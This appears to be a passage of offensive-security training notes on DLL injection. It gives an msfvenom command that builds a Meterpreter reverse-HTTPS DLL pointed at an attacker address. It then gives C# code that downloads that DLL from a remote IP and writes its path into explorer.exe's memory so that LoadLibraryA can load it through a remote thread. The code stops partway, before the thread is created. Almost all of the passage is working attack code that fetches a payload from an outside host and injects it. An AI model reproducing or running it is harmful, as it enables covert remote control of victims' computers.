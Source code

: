 Instead of defining our shellcode as a standard API exported by our malicious DLL, put our shellcode within the `DLL_PROCESS_ATTACH` switch case, where it will be executed when `LoadLibrary` calls `DllMain`.

Generate a Meterpreter DLL with `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f dll -o met.dll
```

```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjection
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\met.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.45.179/met.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;

            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            IntPtr outSize;

            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

```